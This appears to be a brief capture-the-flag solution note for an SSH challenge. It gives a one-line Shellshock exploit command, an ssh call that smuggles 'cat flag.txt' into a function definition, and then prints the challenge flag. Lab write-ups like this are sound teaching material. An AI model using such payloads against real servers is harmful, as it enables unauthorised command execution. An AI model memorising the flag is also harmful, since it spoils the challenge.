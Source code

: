 The ssh server is vulnerable to shellshock. To get it to print the flag, simply run `ssh -l ctf localhost -p 2022 '() { :;}; cat flag.txt'`
flag: `shocking_the_shellz_is_fun`

